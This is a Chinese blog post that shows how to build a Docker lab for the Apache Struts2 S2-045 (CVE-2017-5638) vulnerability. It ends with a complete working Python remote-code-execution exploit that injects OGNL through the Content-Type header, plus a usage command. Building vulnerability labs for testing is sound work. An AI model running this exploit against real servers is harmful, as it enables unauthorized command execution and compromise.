 ```yaml
---
layout: post
title: 如何使用Docker快速构建S2-045漏洞环境
categories: [Configuration]
tags: [Docker,Vulnerability-environment]
description: "S2又出高危了，想搞事又怕被水表怎么办？不如自己构建一个真实的漏洞环境，在本地过过瘾。这篇博客以最新的 S2-045 为例，记录如何使用Docker快速进行漏洞测试环境的构建。"
fullview: false
comments: true
---
```

# 准备工作

## 关于 Docker

首先你需要一个Docker环境，关于Docker感兴趣的同学可以阅读[《Docker—入门到实践》](https://yeasy.gitbooks.io/docker_practice/content/)。

关于如何安装Docker请看[安装 Docker](https://yeasy.gitbooks.io/docker_practice/content/install/)。

## 关于 Dockerfile

>如果我们可以把每一层修改、安装、构建、操作的命令都写入一个脚本，用这个脚本来构建、定制镜像，那么之前提及的无法重复的问题、镜像构建透明性的问题、体积的问题就都会解决。这个脚本就是 Dockerfile 。

本次重点内容就是如何创建一个 Dockerfile 并构建一个 Docker 镜像。

关于 Dockerfile 请看[使用 Dockerfile 定制镜像](https://yeasy.gitbooks.io/docker_practice/content/image/build.html)

## 关于S2-045的测试环境

我们需要一个 S2-045 的测试环境，这里可以使用[ mottoin ](http://www.mottoin.com/)提供的[测试环境](https://github.com/mottoin/S2-045)。

也可以下载[ struts2-blank ](https://mvnrepository.com/artifact/org.apache.struts/struts2-blank)进行测试，但是需要手动修改 war 包中的<code> struts.xml </code>，开启动态方法调用。

    <constant name="struts.enable.DynamicMethodInvocation" value="true"/>

# 创建一个 Dockerfile 文件

首先我们要创建一个文件夹来放测试环境以及 Dockerfile 。

    mkdir S2-045

在文件夹内放入下载好的测试环境，然后创建一个 Dockerfile 。

    cp your-download-path/S2-045.war ./S2-045
    vi ./S2-045/Dockerfile

将下列语句写入 Dockerfile ，保存并退出。

    FROM tomcat:8.0-jre8

    WORKDIR /tmp

    RUN rm -rf /usr/local/tomcat/webapps/ \
    && chmod a+x /usr/local/tomcat/bin/*.sh

    COPY S2-045.war /usr/local/tomcat/webapps/ROOT.war
    
    EXPOSE 8080

    CMD ["/usr/local/tomcat/bin/catalina.sh", "run"]

当前的目录结构如下:

    └── S2-045
        ├── Dockerfile
        └── S2-045.war

# 构建 Dockerfile

运行命令:

    docker build -t s2-045 S2-045

docker 就会根据之前的 Dockerfile 进行自动构建。

![build](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-build.png)

查看所有的镜像

    docker images -a

可以看到 s2-045 已经静静的躺在列表里面了。

![images-all](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-images-all.png)

# 运行 s2-045 镜像

运行:

    docker run -d -p 80:8080 s2-045

查看当前运行镜像状态:

    docker stats

![stats](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-stats.png)

访问搭建好的环境:

    http://127.0.0.1/index.action

![index](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-index.png)

测试漏洞的脚本是在msf里面找的，相比其他公布出来的测试脚本更稳定：

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import urllib2
    import httplib


    def exploit(url, cmd):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += "(#cmd='%s')." % cmd
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"

        try:
            headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
            request = urllib2.Request(url, headers=headers)
            page = urllib2.urlopen(request).read()
        except httplib.IncompleteRead, e:
            page = e.partial

        print(page)
        return page

    if __name__ == '__main__':
        import sys
        if len(sys.argv) != 3:
            print("[*] struts2_S2-045.py <url> <cmd>")
        else:
            print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
            url = sys.argv[1]
            cmd = sys.argv[2]
            print("[*] cmd: %s\n" % cmd)
            exploit(url, cmd)

使用方法如下:

    python poc.py http://127.0.0.1/index.action "cd / && ls -al"

![result](http://o8lgx56x1.bkt.clouddn.com/blog/img/s2-045-docker-result.png)

# 参考

[快速搭建各种漏洞环境](https://github.com/Medicean/VulApps)

[S2-045 原理初步分析](http://paper.seebug.org/241/)
